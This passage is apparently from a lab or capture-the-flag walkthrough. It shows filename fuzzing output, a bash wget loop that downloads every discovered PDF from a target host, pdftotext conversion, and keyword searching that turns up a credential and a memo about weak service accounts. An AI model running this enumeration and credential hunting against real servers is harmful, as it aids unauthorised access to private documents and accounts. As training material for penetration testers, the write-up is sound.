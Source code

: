 ```
000000401:   200        126 L    542 W      10905 Ch    "2020-12-28-upload.pdf"
```

Afterwards, we can use the names of the valid files to create a wordlist, remove the RETURN control character and use a basic `bash` for loop to download all of these files.

```bash
tr -d '\r' < valid_files > test
while read i; do wget "http://10.129.95.154/documents/${i}"; done < test
```

Afterwards, we need a way to convert all of these to text so we can read them. This can be done using `pdftotext`.&#x20;

```bash
$ pdftotext 2020-01-01-upload.pdf
$ cat 2020-01-01-upload.txt 
Dolore ut etincidunt adipisci aliquam labore.
Dolore quaerat porro neque amet. Non ipsum quiquia ut dolor modi porro.
Magnam dolor dolor etincidunt magnam adipisci etincidunt magnam. Aliquam
eius ipsum sed amet dolorem voluptatem. Dolore tempora magnam tempora
est ipsum. Modi etincidunt consectetur porro numquam eius magnam velit.
Est consectetur non tempora velit sed labore. Velit sed labore voluptatem est
tempora. Magnam etincidunt consectetur sed dolorem amet labore.
Adipisci est eius voluptatem. Adipisci sed dolorem ut etincidunt non etincidunt
numquam. Quisquam sit tempora voluptatem. Numquam ut dolore consectetur dolor quaerat quisquam. Tempora dolorem dolore dolore etincidunt modi.
Magnam aliquam quisquam porro. Modi est ut numquam dolor dolorem neque.
$ for FILE in *; do pdftotext $FILE; done;
```

Then, we can use `grep` to find keywords in these files.

<figure><img src="../../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

We have a credential, and also searching for `security` tells me there's some type of vulnerability with the service accounts:

```
$ cat 2020-12-30-upload.txt
Internal IT Update
There has recently been some outages on our web servers. Ted has gotten a
script in place to help notify us if this happens again.
Also, after discussion following our recent security audit we are in the process
of locking down our service accounts.
```
